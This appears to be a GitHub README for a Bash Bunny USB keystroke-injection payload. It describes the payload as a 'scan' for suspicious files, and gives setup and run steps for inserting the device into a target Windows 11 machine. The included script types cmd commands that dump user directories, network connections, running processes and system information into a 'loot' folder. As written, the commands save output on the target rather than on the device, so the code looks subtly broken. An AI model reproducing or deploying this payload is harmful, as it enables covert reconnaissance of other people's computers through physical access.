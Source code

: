 # windows_info_scan
This Bash Bunny payload is designed to scan a Windows 11 system for suspicious files or data and save all information of interest to the loot folder on the Bash Bunny's storage device. The payload runs by executing a series of cmd commands that generate output files containing information about the target system.
This README file provides step-by-step instructions for setting up and running the payload on a target Windows 11 system using a Bash Bunny.
Requirements

To use this payload, you will need the following:

    A Bash Bunny device
    A Windows 11 target system to scan
    Physical access to the target system to insert the Bash Bunny

Setup

Follow these steps to set up the Bash Bunny for running the Windows 11 scan payload:

    Insert the Bash Bunny into your computer's USB port.
    Navigate to the payloads folder on the Bash Bunny's storage device.
    Create a new folder called Windows11Scan inside the payloads folder.
    Inside the Windows11Scan folder, create a new file called switch1, without any file extension.
    Copy and paste the following code into the switch1 file:

bash

#!/bin/bash
# Title: Windows 11 Scan Payload
# Author: Tukru
# Version: 1.0
# Description: Scans Windows 11 for suspicious files and data

# Setup
ATTACKMODE HID
LED SETUP

# Payload
QUACK GUI r
QUACK DELAY 500
QUACK STRING cmd /c "dir C:\Users /a /q > loot\users.txt"
QUACK ENTER
QUACK DELAY 500
QUACK STRING cmd /c "netstat -ano > loot\netstat.txt"
QUACK ENTER
QUACK DELAY 500
QUACK STRING cmd /c "tasklist /v > loot\tasklist.txt"
QUACK ENTER
QUACK DELAY 500
QUACK STRING cmd /c "systeminfo > loot\systeminfo.txt"
QUACK ENTER
QUACK DELAY 500

# Cleanup
LED FINISH

This code contains the Bash Bunny payload that performs the Windows 11 scan.

    Create a new folder called loot in the root directory of the Bash Bunny's storage device.

Running the Payload

To run the Windows 11 scan payload on a target system, follow these steps:

    Insert the Bash Bunny into an available USB port on the target Windows 11 system.
    Wait for the green LED on the Bash Bunny to turn off, indicating that the payload has finished executing.
    Remove the Bash Bunny from the USB port.
    Open the loot folder on the Bash Bunny's storage device to view the output files generated by the payload.

Output Files

The following files will be generated in the loot folder on the Bash Bunny's storage device:

    users.txt - contains a list of user accounts on the target system
    netstat.txt - contains a list of active network connections and associated processes
    tasklist.txt - contains a list of running processes and associated information
    systeminfo.txt - contains information about the target system, including hardware and operating system details.

Troubleshooting

If the payload does not seem to be running properly or generating output files, try the following:

    Ensure that the Bash Bunny is properly inserted into the target system's USB port and that the green LED turns off

